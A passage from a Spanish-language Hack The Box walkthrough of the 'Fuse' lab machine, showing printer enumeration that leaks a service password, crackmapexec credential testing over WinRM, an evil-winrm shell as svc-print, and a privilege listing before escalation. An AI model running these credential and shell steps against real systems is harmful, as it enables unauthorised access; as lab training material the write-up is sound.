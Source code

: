 ```
rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```



### Enumeración winrm

Ahora, nuevamente con `crackmapexec` vamos a revisar si alguno de los usuarios tiene la contraseña que encontramos con el comando `enumprinters`, pero en este caso, no vamos a revisar SMB sino `winrm` para poder obtener shell como usuario

```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Fuse]
└──╼ #crackmapexec winrm 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
WINRM       10.10.10.193    5985   FUSE             [*] http://10.10.10.193:5985/wsman
WINRM       10.10.10.193    5985   FUSE             [+] FABRICORP\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
```




## Shell de usuario

El usuario que tiene estas credenciales es `svc-print`, así que usando `evil-winrm` vamos a conectarnos.

```
┌─[root@parrot]─[/home/nicolasmira101]
└──╼ #evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'   

Evil-WinRM shell v2.3                                                                                         
Info: Establishing connection to remote endpoint                                                                                     
*Evil-WinRM* PS C:\Users\svc-print\Documents> type ../user.txt
3d4719...........................
```




## Escalamiento de privilegios

Vamos a revisar qué privilegios tiene este usuario

```
*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami /priv                                                                                         
PRIVILEGES INFORMATION                 
----------------------                                                                             
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
